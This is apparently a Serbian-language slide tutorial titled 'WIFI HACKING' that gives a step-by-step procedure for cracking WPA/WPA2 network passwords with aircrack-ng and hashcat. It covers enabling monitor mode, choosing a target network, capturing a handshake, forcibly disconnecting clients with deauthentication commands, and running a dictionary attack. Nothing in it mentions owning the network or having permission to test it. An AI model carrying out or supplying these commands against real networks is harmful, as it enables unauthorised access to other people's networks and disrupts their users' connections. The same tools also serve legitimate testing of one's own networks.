 WIFI HACKING
============

razbijanje WPA/WPA2 uz pomoc `aircrack-ng` i `hashcat` alata.
-------------------------------------------------------------

Priprema
========

Potrebno je instalirati programe `aircrack-ng` i `hashcat`. I drajvere
za graficku karticu.

Podesavanje wifi interfejsa
---------------------------

Pronadjemo naziv interfejsa uz pomoc komande\
`ip a`

``` {style="font-size:0.3rem;"}
1: lo:  mtu 65536 qdisc noqueue state UNKNOWN group default qlen 1000
    link/loopback 00:00:00:00:00:00 brd 00:00:00:00:00:00
    inet 127.0.0.1/8 scope host lo
       valid_lft forever preferred_lft forever
    inet6 ::1/128 scope host 
       valid_lft forever preferred_lft forever
2: enp0s25:  mtu 1500 qdisc pfifo_fast state DOWN group default qlen 1000
    link/ether 00:1f:16:37:d8:48 brd ff:ff:ff:ff:ff:ff
3: wls1:  mtu 1500 qdisc mq state UP group default qlen 1000
    link/ether 00:26:c6:8a:00:26 brd ff:ff:ff:ff:ff:ff
    inet 192.168.0.104/24 brd 192.168.0.255 scope global dynamic noprefixroute wls1
       valid_lft 6532sec preferred_lft 6532sec
    inet6 fe80::8afa:e05b:896c:83f5/64 scope link noprefixroute 
       valid_lft forever preferred_lft forever
        
```

Zapamtimo ime wifi interfejsa, u ovom slucaju *wls1* posle aktiviranja
**monitor mode**-a ime ce postati *wls1mon*, to koristimo u komandama
umesto \<ifacemon\>, kod vas ime moze biti drugacije.

Monitor mode
============

Komandom\
`airmon-ng start <iface>`\
ubacujemo mreznu karticu u **monitor mode**. Monitor mode nam daje
potpunu kontrolu nad mreznom karticom. I on nam omogucava da uzmemo **handshake** koji nam je
potreban za dalje.

Nalazenje mreze
===============

Komandom\
`airodump-ng <ifacemon>` posmatramo koje se mreze nalaze oko nas.
Videcemo tabelu i odatle su nam bitna sledeca polja:

-   **CH**, kanal, ovo je bitan podatak za dalji rad
-   **BSSID**, MAC adresa mreze
-   **ENC**, zastita, trazimo WPA/WPA2
-   **PWR**, snaga signala, sto veci broj to bolje
-   **AUTH**, mod autentifikacije, trazimo **PSK**

Hvatanje handshake-a
====================

Kada odredimo koju mrezu napadamo krecemo da slusamo za **handshake**
komandom\
`airodump-ng -c <kanal> --bssid <BSSID> -w handshake <ifacemon>` Da
bismo snimili handshake potrebno je da se neko poveze na mrezu, dakle
cekamo dok se to ne desi. Kada je handshake uhvacen to ce pisati u
gornjem desnom uglu. Tada mozemo da prekinemo slusanje. Ispod tabele za
mrezama nalazi se tabela sa klijentima, za aktivno skidanje klijenta nam
je potrebna MAC adresa pa je korisno to zapisati.

Hvatanje handshake-a
====================

Ukoliko nam se ne ceka, mozemo nekoga skinuti sa mreze i cekati da se
opet poveze. Pre svega ostavimo `airodump-ng` da slusa, ista komanda kao
na prethodnoj strani. I onda skinemo sve klijente sa mreze komandom:\
`aireplay-ng -0 10 -a <BSSID> <ifacemon>` Ukoliko ne uspe iz prve,
probamo opet. Mozemo i skinuti pojedinacnog klijenta sledecom komandom
`aireplay-ng -0 10 -a <BSSID> -c <MAC_KLIJENTA> <ifacemon>`

Priprema handshake-a za hashcat
===============================

Posle uspesno uhvacenog handshake-a u folderu ce se pojaviti par novih
fajlova. Bitan fajl nam je `handshake-01.cap` od njega pravimo fajl koji
`hashcat` moze da procita komandom\
`aircrack-ng -j handshake-01 handshake-01.cap` Sada imamo `handshake-01.hccapx` njega
razbijamo uz pomoc `hashcat`-a komandom\
`hashcat -m 2500 handshake-01.hccpx recnik.txt`

Informacije za dalje
====================

-   `man aircrack-ng`, `man hashcat`
-   `https://www.aircrack-ng.org/doku.php`wiki od aircrack-ng
-   `https://hashcat.net/wiki/`, hashcat wiki
